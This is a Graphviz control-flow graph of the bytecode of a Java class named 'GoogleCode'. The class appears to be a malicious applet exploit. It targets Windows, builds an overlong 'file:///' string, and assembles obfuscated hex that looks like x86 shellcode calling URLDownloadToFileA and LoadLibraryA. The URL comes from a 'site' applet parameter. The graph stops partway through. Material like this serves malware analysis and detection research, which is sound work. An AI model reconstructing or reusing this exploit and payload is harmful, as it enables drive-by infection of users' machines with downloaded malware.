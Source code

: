 digraph "" {
    "r0 := @this: GoogleCode"
    "push 47"
    "r0 := @this: GoogleCode"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "staticinvoke <GoogleCode: java.lang.String repeat(char,int)>"
    "push 302"->"staticinvoke <GoogleCode: java.lang.String repeat(char,int)>";
    "store.r r404"
    "staticinvoke <GoogleCode: java.lang.String repeat(char,int)>"->"store.r r404";
    "push \"o::s.nam::::e\""
    "store.r r404"->"push \"o::s.nam::::e\"";
    "push \":\""
    "push \"o::s.nam::::e\""->"push \":\"";
    "push \"\""
    "push \":\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"rrwrrrrirrnrrrr\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"rrwrrrrirrnrrrr\"";
    "push \"r\""
    "push \"rrwrrrrirrnrrrr\""->"push \"r\"";
    "push \"r\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "ifge new java.lang.StringBuilder"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"ifge new java.lang.StringBuilder";
    "return"
    "ifge new java.lang.StringBuilder"->"return";
    "new java.lang.StringBuilder"
    "ifge new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"1111f1ile11:11111/11/\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"1111f1ile11:11111/11/\"";
    "push \"1\""
    "push \"1111f1ile11:11111/11/\""->"push \"1\"";
    "push \"1\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r404"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r404";
    "load.r r404"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Z%;;;;Z%;;Z%Z;;;%;Z;;;%Z;;;%\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Z%;;;;Z%;;Z%Z;;;%;Z;;;%Z;;;%\"";
    "push \";\""
    "push \"Z%;;;;Z%;;Z%Z;;;%;Z;;;%Z;;;%\""->"push \";\"";
    "push \";\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r404";
    "store.r r404"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"WWW5WWW05WWWWWW351WW52WW56WWW57WWWWWWW559WWWWCEWWWWWW8\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"WWW5WWW05WWWWWW351WW52WW56WWW57WWWWWWW559WWWWCEWWWWWW8\"";
    "push \"W\""
    "push \"WWW5WWW05WWWWWW351WW52WW56WWW57WWWWWWW559WWWWCEWWWWWW8\""->"push \"W\"";
    "push \"W\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"aaa0aaaa000aaa0aaa00aaa0aa5D83aaEDa0D31aaaCaaaa0aaa64\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"aaa0aaaa000aaa0aaa00aaa0aa5D83aaEDa0D31aaaCaaaa0aaa64\"";
    "push \"a\""
    "push \"aaa0aaaa000aaa0aaa00aaa0aa5D83aaEDa0D31aaaCaaaa0aaa64\""->"push \"a\"";
    "push \"a\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0340D30DDDDDD780DDDDDCDDD8B4D00C8BDD70DDD1CDD\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0340D30DDDDDD780DDDDDCDDD8B4D00C8BDD70DDD1CDD\"";
    "push \"D\""
    "push \"0340D30DDDDDD780DDDDDCDDD8B4D00C8BDD70DDD1CDD\""->"push \"D\"";
    "push \"D\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ADTT8B4TTTT00TTTT8TTTETB0TTTT98BTTT4T0TT3TT4TTTT8TDT4T0TTT7TTTCTTTT8BTTT403CTT56TTT\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ADTT8B4TTTT00TTTT8TTTETB0TTTT98BTTT4T0TT3TT4TTTT8TDT4T0TTT7TTTCTTTT8BTTT403CTT56TTT\"";
    "push \"T\""
    "push \"ADTT8B4TTTT00TTTT8TTTETB0TTTT98BTTT4T0TT3TT4TTTT8TDT4T0TTT7TTTCTTTT8BTTT403CTT56TTT\""->"push \"T\"";
    "push \"T\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Z57BEZZZZZ5E0ZZZZ1ZZ0ZZZ000ZZZ01\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Z57BEZZZZZ5E0ZZZZ1ZZ0ZZZ000ZZZ01\"";
    "push \"Z\""
    "push \"Z57BEZZZZZ5E0ZZZZ1ZZ0ZZZ000ZZZ01\""->"push \"Z\"";
    "push \"Z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"E:::E:::B::F:::4E01:0::::00::001:::::EFE:8::D:6:01:00:005F::5E\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"E:::E:::B::F:::4E01:0::::00::001:::::EFE:8::D:6:01:00:005F::5E\"";
    "push \"E:::E:::B::F:::4E01:0::::00::001:::::EFE:8::D:6:01:00:005F::5E\""->"push \":\"";
    "push \":\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"8V9VVVEAVVVV8V1VVC25EVVVV0VVVV10V0005VVVV26VV8VVVV8000V0V000FF95VVV4VE01VVV00VVVV008VVV9VVVVEVVVVA8VVVVVV1VVVVVVVC2VVVV5EVVVV0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8V9VVVEAVVVV8V1VVC25EVVVV0VVVV10V0005VVVV26VV8VVVV8000V0V000FF95VVV4VE01VVV00VVVV008VVV9VVVVEVVVVA8VVVVVV1VVVVVVVC2VVVV5EVVVV0\"";
    "push \"V\""
    "push \"8V9VVVEAVVVV8V1VVC25EVVVV0VVVV10V0005VVVV26VV8VVVV8000V0V000FF95VVV4VE01VVV00VVVV008VVV9VVVVEVVVVA8VVVVVV1VVVVVVVC2VVVV5EVVVV0\""->"push \"V\"";
    "push \"V\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1aa00aaa0aaa03aaaa1Fa601Caa28A9aaaC356aaaaaa30aaa2000aaa0aaaa80aaaaaFBa0aa07aaa40aaaa6881aC32aaaa4aaa6EaaBEaaaaECa60aaa4aaaaa320aaaa0a8aaaa9EAaaaa8aa1Caaaa2aaa4502aaaaa00aaaa00a52FF9aaa5aa5aaaaaaa20a10aaa00aaa0aaa89aaaEaaaaAaaaa8aaa1aCaaaa2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1aa00aaa0aaa03aaaa1Fa601Caa28A9aaaC356aaaaaa30aaa2000aaa0aaaa80aaaaaFBa0aa07aaa40aaaa6881aC32aaaa4aaa6EaaBEaaaaECa60aaa4aaaaa320aaaa0a8aaaa9EAaaaa8aa1Caaaa2aaa4502aaaaa00aaaa00a52FF9aaa5aa5aaaaaaa20a10aaa00aaa0aaa89aaaEaaaaAaaaa8aaa1aCaaaa2\"";
    "push \"1aa00aaa0aaa03aaaa1Fa601Caa28A9aaaC356aaaaaa30aaa2000aaa0aaaa80aaaaaFBa0aa07aaa40aaaa6881aC32aaaa4aaa6EaaBEaaaaECa60aaa4aaaaa320aaaa0a8aaaa9EAaaaa8aa1Caaaa2aaa4502aaaaa00aaaa00a52FF9aaa5aa5aaaaaaa20a10aaa00aaa0aaa89aaaEaaaaAaaaa8aaa1aCaaaa2\""->"push \"a\"";
    "push \"a\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5nnnn0nnn0nnn2nnnnnn00nn0nn05n2nn5nnn0nnnFFnn9nnn5560100nnn00n6nnnA0nnnn0nnnn6A0089nnnnnnnnEAnnnn81Cnn2nnnn5E0100nn0n0nnn5n289EA8n1Cnnnn2n7nnnn8nn0nnn2nnnn00nn0nnnn0n52nnn6A0nnn0FnnFnnnnDnnnn0nnnn6Annn058nn9EAnnn8n1C2nn5E0n1000\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5nnnn0nnn0nnn2nnnnnn00nn0nn05n2nn5nnn0nnnFFnn9nnn5560100nnn00n6nnnA0nnnn0nnnn6A0089nnnnnnnnEAnnnn81Cnn2nnnn5E0100nn0n0nnn5n289EA8n1Cnnnn2n7nnnn8nn0nnn2nnnn00nn0nnnn0n52nnn6A0nnn0FnnFnnnnDnnnn0nnnn6Annn058nn9EAnnn8n1C2nn5E0n1000\"";
    "push \"n\""
    "push \"5nnnn0nnn0nnn2nnnnnn00nn0nn05n2nn5nnn0nnnFFnn9nnn5560100nnn00n6nnnA0nnnn0nnnn6A0089nnnnnnnnEAnnnn81Cnn2nnnn5E0100nn0n0nnn5n289EA8n1Cnnnn2n7nnnn8nn0nnn2nnnn00nn0nnnn0n52nnn6A0nnn0FnnFnnnnDnnnn0nnnn6Annn058nn9EAnnn8n1C2nn5E0n1000\""->"push \"n\"";
    "push \"n\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"05JJ2FJJJF9JJ5J5JJJJJJJAJJ01J0J0JJJ00JJJJJ89JEJJJJA8JJ1JJJJJJC2JJJ5JJJEJJJJJ01JJJ00JJJ0JJ05JJJJ268J8J0000JJJJ000FJJJFJ954JEJ01JJ0J0008JJJ9EAJJJJ81JJJC25JJJEJ0JJ1JJJJ0000JJ31F60JJ1CJJJ28AJJJ9C35JJJJ6JJJEJJJJJ02JJ0J00JJJ08J0J\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"05JJ2FJJJF9JJ5J5JJJJJJJAJJ01J0J0JJJ00JJJJJ89JEJJJJA8JJ1JJJJJJC2JJJ5JJJEJJJJJ01JJJ00JJJ0JJ05JJJJ268J8J0000JJJJ000FJJJFJ954JEJ01JJ0J0008JJJ9EAJJJJ81JJJC25JJJEJ0JJ1JJJJ0000JJ31F60JJ1CJJJ28AJJJ9C35JJJJ6JJJEJJJJJ02JJ0J00JJJ08J0J\"";
    "push \"J\""
    "push \"05JJ2FJJJF9JJ5J5JJJJJJJAJJ01J0J0JJJ00JJJJJ89JEJJJJA8JJ1JJJJJJC2JJJ5JJJEJJJJJ01JJJ00JJJ0JJ05JJJJ268J8J0000JJJJ000FJJJFJ954JEJ01JJ0J0008JJJ9EAJJJJ81JJJC25JJJEJ0JJ1JJJJ0000JJ31F60JJ1CJJJ28AJJJ9C35JJJJ6JJJEJJJJJ02JJ0J00JJJ08J0J\""->"push \"J\"";
    "push \"J\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"FB0074___0____68__81C_3__24_6__E__BEEC604____320089E_A___8__1C__2___4________50___2_00_0___0____52FF__95_52010___000____8____9E____A___81_C2_500__2____00005__2_50_FF______9556____0_1000____0_6A____0______0____6\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"FB0074___0____68__81C_3__24_6__E__BEEC604____320089E_A___8__1C__2___4________50___2_00_0___0____52FF__95_52010___000____8____9E____A___81_C2_500__2____00005__2_50_FF______9556____0_1000____0_6A____0______0____6\"";
    "push \"_\""
    "push \"FB0074___0____68__81C_3__24_6__E__BEEC604____320089E_A___8__1C__2___4________50___2_00_0___0____52FF__95_52010___000____8____9E____A___81_C2_500__2____00005__2_50_FF______9556____0_1000____0_6A____0______0____6\""->"push \"_\"";
    "push \"_\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"A0OOOO0OOOO89OOOOOEA81OOOOC25EOOOO0OOO10OO00O0O52OO8OOOOOOO9OOOEOOOOA81OOOOOOC2A60OO2OOO0OOO00OOO05OO2OO6OOOOOOA00OOOFOOFOOOODO0O6OOOOAOO05OOOOO89EA8OOO1OOCOOOO25OOOOEOOOO0OOO10O0OO005O2FFO955AOOO010OOOO000OOOO9OOOOD5DO5F5OOE5OOOA595OOBOOO\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"A0OOOO0OOOO89OOOOOEA81OOOOC25EOOOO0OOO10OO00O0O52OO8OOOOOOO9OOOEOOOOA81OOOOOOC2A60OO2OOO0OOO00OOO05OO2OO6OOOOOOA00OOOFOOFOOOODO0O6OOOOAOO05OOOOO89EA8OOO1OOCOOOO25OOOOEOOOO0OOO10O0OO005O2FFO955AOOO010OOOO000OOOO9OOOOD5DO5F5OOE5OOOA595OOBOOO\"";
    "push \"O\""
    "push \"A0OOOO0OOOO89OOOOOEA81OOOOC25EOOOO0OOO10OO00O0O52OO8OOOOOOO9OOOEOOOOA81OOOOOOC2A60OO2OOO0OOO00OOO05OO2OO6OOOOOOA00OOOFOOFOOOODO0O6OOOOAOO05OOOOO89EA8OOO1OOCOOOO25OOOOEOOOO0OOO10O0OO005O2FFO955AOOO010OOOO000OOOO9OOOOD5DO5F5OOE5OOOA595OOBOOO\""->"push \"O\"";
    "push \"O\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"NN58CNNNN3NNN00NNN00N0N0NNN00NNN0NNNN0000NN0NN0000NNNN0NNN0N0NNNN000NNN00NN0NN0NNN00NNN00476NNNN574NNNN5NNN465N6D7NN050N6NN17N46841N0NN04CN6F6NNNNN16NNN44C69NNN6NNN2NNNN72NNNN61NNN7NNN2NNN794N1NNN0NNNNNN047NN657NNNNN45\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"NN58CNNNN3NNN00NNN00N0N0NNN00NNN0NNNN0000NN0NN0000NNNN0NNN0N0NNNN000NNN00NN0NN0NNN00NNN00476NNNN574NNNN5NNN465N6D7NN050N6NN17N46841N0NN04CN6F6NNNNN16NNN44C69NNN6NNN2NNNN72NNNN61NNN7NNN2NNN794N1NNN0NNNNNN047NN657NNNNN45\"";
    "push \"N\""
    "push \"NN58CNNNN3NNN00NNN00N0N0NNN00NNN0NNNN0000NN0NN0000NNNN0NNN0N0NNNN000NNN00NN0NN0NNN00NNN00476NNNN574NNNN5NNN465N6D7NN050N6NN17N46841N0NN04CN6F6NNNNN16NNN44C69NNN6NNN2NNNN72NNNN61NNN7NNN2NNN794N1NNN0NNNNNN047NN657NNNNN45\""->"push \"N\"";
    "push \"N\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0bbb726Fbbbb6b341b6b4b6bbb47b26bb57b373bbbb00bbbb5b7696Eb4bb57865bb6300bbbBbbbB89bbbbFbb28bbbbbb9F7bbb3bbb0C0bAbbEbb75bbbbFDbbb29bbbF789Fbbbb931C0bbbbBbbbEbb3Cb000b000bbbb03bbBb51bbbbB0bb20b0bbbbbbb0b0b66\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0bbb726Fbbbb6b341b6b4b6bbb47b26bb57b373bbbb00bbbb5b7696Eb4bb57865bb6300bbbBbbbB89bbbbFbb28bbbbbb9F7bbb3bbb0C0bAbbEbb75bbbbFDbbb29bbbF789Fbbbb931C0bbbbBbbbEbb3Cb000b000bbbb03bbBb51bbbbB0bb20b0bbbbbbb0b0b66\"";
    "push \"b\""
    "push \"0bbb726Fbbbb6b341b6b4b6bbb47b26bb57b373bbbb00bbbb5b7696Eb4bb57865bb6300bbbBbbbB89bbbbFbb28bbbbbb9F7bbb3bbb0C0bAbbEbb75bbbbFDbbb29bbbF789Fbbbb931C0bbbbBbbbEbb3Cb000b000bbbb03bbBb51bbbbB0bb20b0bbbbbbb0b0b66\""->"push \"b\"";
    "push \"b\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"AllllD0llllll3lll85ll1lB020llll000lll8B70ll7lll883lllCllll6l1llCl03llBlll5lll1lB0llll2ll0000llll8llllDBllllDll1Flll0lll20ll0ll0llll0AD0385lll1lB0l2ll0000lABAD03lll8llll5llllllll1llBllll0lll200llll0050lllABllllADlllll0385llll1llBlll020llll\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"AllllD0llllll3lll85ll1lB020llll000lll8B70ll7lll883lllCllll6l1llCl03llBlll5lll1lB0llll2ll0000llll8llllDBllllDll1Flll0lll20ll0ll0llll0AD0385lll1lB0l2ll0000lABAD03lll8llll5llllllll1llBllll0lll200llll0050lllABllllADlllll0385llll1llBlll020llll\"";
    "push \"l\""
    "push \"AllllD0llllll3lll85ll1lB020llll000lll8B70ll7lll883lllCllll6l1llCl03llBlll5lll1lB0llll2ll0000llll8llllDBllllDll1Flll0lll20ll0ll0llll0AD0385lll1lB0l2ll0000lABAD03lll8llll5llllllll1llBllll0lll200llll0050lllABllllADlllll0385llll1llBlll020llll\""->"push \"l\"";
    "push \"l\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"==0==0==0=A==B==5=E31DB==A====D===5===603851==B=0==2===0=0008=9C=689D===7====51F===CF===3A===6===597=4==0=45====E4==3====EBE95E9====3D==1E0==03===8=52====7020==000=31=F69=6=====6===6AD======C1====E====0====0203\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"==0==0==0=A==B==5=E31DB==A====D===5===603851==B=0==2===0=0008=9C=689D===7====51F===CF===3A===6===597=4==0=45====E4==3====EBE95E9====3D==1E0==03===8=52====7020==000=31=F69=6=====6===6AD======C1====E====0====0203\"";
    "push \"=\""
    "push \"==0==0==0=A==B==5=E31DB==A====D===5===603851==B=0==2===0=0008=9C=689D===7====51F===CF===3A===6===597=4==0=45====E4==3====EBE95E9====3D==1E0==03===8=52====7020==000=31=F69=6=====6===6AD======C1====E====0====0203\""->"push \"=\"";
    "push \"=\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"nn8nn5nnnn1F0n2nn0n0nn0nnn0n8nnn9C6AD038nnn5n1nnnnBn0nn2nn0nnnn00n0nnCn3EB10nnn0nnn00n00nnnn0nn0nnnn00nnnn000nnnn00nnnnn000nnnnnn000nnnnn000n000n0000nnn0n089n851B02000nnnn05nnn657nE8nn5nnnn8nnnnnnFFFFnnnFF5nnnnnF5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"nn8nn5nnnn1F0n2nn0n0nn0nnn0n8nnn9C6AD038nnn5n1nnnnBn0nn2nn0nnnn00n0nnCn3EB10nnn0nnn00n00nnnn0nn0nnnn00nnnn000nnnn00nnnnn000nnnnnn000nnnnn000n000n0000nnn0n089n851B02000nnnn05nnn657nE8nn5nnnn8nnnnnnFFFFnnnFF5nnnnnF5\"";
    "push \"nn8nn5nnnn1F0n2nn0n0nn0nnn0n8nnn9C6AD038nnn5n1nnnnBn0nn2nn0nnnn00n0nnCn3EB10nnn0nnn00n00nnnn0nn0nnnn00nnnn000nnnn00nnnnn000nnnnnn000nnnnn000n000n0000nnn0n089n851B02000nnnn05nnn657nE8nn5nnnn8nnnnnnFFFFnnnFF5nnnnnF5\""->"push \"n\"";
    "push \"n\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ExxAxxxxxxBxxxxxxx0xx1CxxxxxxE803xxxxEBB7xxx4xxxx02EBExxxxxxDCx3x55xx5xxxx2xx4xCxxx4Dx4Fxxx4Exx2E4xx44Cxxxx4C0xx055xx5x2xxxx4C446F77xxx6xxxxExx6C6xxxxxxxFxx616xxx45xxx4xx6xFxx46xxx6x9xxxx6C65xxx4xx1xxxx0x0xx7xxxx06466xx757xxx0xxx6xxxxxxxx4xxxx2E6xxx5xx7x8xxxx6x5xxxxxx0xxx0x6xx37261xxxx736xxx82xxExx7x068x7x0xx0xx0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ExxAxxxxxxBxxxxxxx0xx1CxxxxxxE803xxxxEBB7xxx4xxxx02EBExxxxxxDCx3x55xx5xxxx2xx4xCxxx4Dx4Fxxx4Exx2E4xx44Cxxxx4C0xx055xx5x2xxxx4C446F77xxx6xxxxExx6C6xxxxxxxFxx616xxx45xxx4xx6xFxx46xxx6x9xxxx6C65xxx4xx1xxxx0x0xx7xxxx06466xx757xxx0xxx6xxxxxxxx4xxxx2E6xxx5xx7x8xxxx6x5xxxxxx0xxx0x6xx37261xxxx736xxx82xxExx7x068x7x0xx0xx0\"";
    "push \"x\""
    "push \"ExxAxxxxxxBxxxxxxx0xx1CxxxxxxE803xxxxEBB7xxx4xxxx02EBExxxxxxDCx3x55xx5xxxx2xx4xCxxx4Dx4Fxxx4Exx2E4xx44Cxxxx4C0xx055xx5x2xxxx4C446F77xxx6xxxxExx6C6xxxxxxxFxx616xxx45xxx4xx6xFxx46xxx6x9xxxx6C65xxx4xx1xxxx0x0xx7xxxx06466xx757xxx0xxx6xxxxxxxx4xxxx2E6xxx5xx7x8xxxx6x5xxxxxx0xxx0x6xx37261xxxx736xxx82xxExx7x068x7x0xx0xx0\""->"push \"x\"";
    "push \"x\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r83"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r83";
    "load.r r0"
    "store.r r83"->"load.r r0";
    "push \"s@@@i@te\""
    "load.r r0"->"push \"s@@@i@te\"";
    "push \"@\""
    "push \"s@@@i@te\""->"push \"@\"";
    "push \"@\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <GoogleCode: java.lang.String getParameter(java.lang.String)>"
